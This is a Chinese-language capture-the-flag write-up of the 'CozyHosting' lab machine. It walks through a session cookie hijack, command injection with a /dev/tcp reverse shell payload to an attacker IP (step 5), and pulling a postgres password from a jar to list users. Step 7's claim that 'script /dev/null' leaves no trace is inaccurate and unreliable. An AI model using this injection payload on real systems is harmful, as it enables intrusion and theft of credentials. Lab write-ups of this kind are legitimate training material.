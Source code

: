![圖片](https://github.com/favorite986141/jamescao/assets/125249893/ca53d48d-8c3e-4d90-9c0b-5992be7d2797)CozyHosting Level:Easy
===
尋找user.txt
---
1.Nmap掃描IP，發現有開22、80

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/be94bec4-7737-4fb2-8017-4f20fccf7517)

2.使用dirsearch搜尋目錄，找到/actuator/sessions，內容跟session有關

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/969ec080-c913-4f63-b819-1aa035fd5303)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a068678f-5ba5-48ce-8923-3fc98f91c180)

3.透過session cookie登入Web

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/df05fe7b-4e80-4c59-b946-eb1746901947)

4.找到疑似可執行ssh，透過burpsuite抓包測試確認可以執行指令

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f05c4cc3-a6d0-4d1f-bfd4-33d3ab5bcc4e)

5.插入reverse shell取得shell

     ;`(sh)0>/dev/tcp/10.10.14.62/1234`   ;表示指令分隔符，它可以讓你在一行中連續執行多個指令。 ``反引號（backticks），表示執行包裹在其內部的命令，並將其輸出插入到命令列中。
 
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/eb0de815-97af-4104-bfd9-5ccb5aea6225)

6.輸入exec >&0，它會將腳本或程式的輸出重新定向到標準輸入，這通常被用於隱藏輸出或將輸出發送到相同的地方作為輸入，以便與輸入進行互動。

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9048a526-b34b-46a3-834b-158df8333b02)

7.最後輸入script /dev/null -c bash，將輸出記錄到/dev/null就會被拋棄。這樣執行的命令不會在目標上留下任何痕跡

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1d0621b2-8094-4c44-b98c-00f323093450)

8.在當前目錄下沒有user.txt但發現有一個jar包，將jar包載下來

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/bb41f8bb-e22f-433a-b1ce-b32306443242)

9.解開jar包，使用grep 找出postgres的密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/70c02312-0773-4199-9b55-d07483c3b52e)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/ceb7f02e-d4a9-4d8a-b0b4-df1927125c9e)

10.看到postgres服務是開啟的

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f184b159-513c-465a-99e8-3d963383a0e3)

11.連入postgres

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/8e466690-9663-4a26-9d5b-65bdaf120231)

12.可以看到兩個表hosts、users，關注users這張表

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/d3ecc83f-5181-42a6-8051-8cd4b655f1a2)

13.找到了兩個帳號

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f063f5cf-559a-4c8a-a5a0-25b65bc1fd74)

